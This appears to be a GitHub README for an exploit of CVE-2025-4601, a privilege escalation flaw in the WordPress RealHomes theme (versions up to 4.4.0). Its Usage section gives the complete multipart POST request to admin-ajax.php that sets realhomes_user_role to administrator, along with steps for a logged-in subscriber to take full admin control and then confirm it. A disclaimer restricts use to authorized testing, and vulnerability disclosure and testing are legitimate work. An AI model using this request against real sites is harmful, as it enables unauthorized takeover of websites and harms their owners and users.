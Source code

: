 # CVE-2025-4601 - WordPress RealHomes Theme <= 4.4.0 - Privilege Escalation

🔥 **Vulnerability Summary**
The WordPress theme RealHomes versions <= 4.4.0 is vulnerable to a **privilege escalation vulnerability**. This allows authenticated users with low privileges (such as subscribers) to escalate their roles to administrators. This vulnerability occurs through the `inspiry_update_profile` function, which improperly allows users to change their role if the `ere_allow_users_change_role` option is enabled.

This issue can be exploited by submitting a specially crafted POST request to the `admin-ajax.php` endpoint, providing the `realhomes_user_role` parameter set to `administrator`.

🔍 **Affected Theme**
- **Theme Name:** RealHomes
- **Affected Version:** <= 4.4.0
- **Vulnerability Type:** Privilege Escalation
- **CVE ID:** CVE-2025-4601
- **CVSS Score:** 8.8 (Critical)
- **Impact:** Full Administrative Access → Potential Site Compromise

🧪 **Exploit Features**
- 📥 **Fetches nonce** automatically from the target page.
- 🔐 **Escalates user role** to `administrator` via the `realhomes_user_role` parameter.
- 🌐 **No authentication required** beyond being logged in as a low-privileged user (e.g., subscriber).
- 💾 **Updates user profile**, granting administrative access to the attacker.

🧠 **Researcher**
- Credit: [Thai An](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/thai-an-thai-an)

🚀 **Usage**
1. **Login to the target website** as a low-privileged user (e.g., subscriber).
2. Access the `/wp-admin/admin-ajax.php` endpoint with the following POST data, which includes the `realhomes_user_role` set to `administrator`:

   ```http
   POST /wp-admin/admin-ajax.php HTTP/2
   Host: targetsite.com
   Cookie: wordpress_logged_in_xxx=...
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNGw1yuikHiYVYYsr

   ------WebKitFormBoundaryNGw1yuikHiYVYYsr
   Content-Disposition: form-data; name="first-name"
   test
   ------WebKitFormBoundaryNGw1yuikHiYVYYsr
   Content-Disposition: form-data; name="last-name"
   user
   ------WebKitFormBoundaryNGw1yuikHiYVYYsr
   Content-Disposition: form-data; name="realhomes_user_role"
   administrator
   ------WebKitFormBoundaryNGw1yuikHiYVYYsr
   Content-Disposition: form-data; name="action"
   inspiry_update_profile
   ------WebKitFormBoundaryNGw1yuikHiYVYYsr--
   ```

3. **Check the response**: If the request is successful, the attacker will gain administrative access.
4. **Verify by accessing the `/wp-admin/`** page to confirm if the attacker has been granted admin privileges.

🔒 **Disclaimer:**
This is intended for educational purposes only and should only be used on systems you own or are explicitly authorized to test. Misuse of this code may lead to legal consequences.
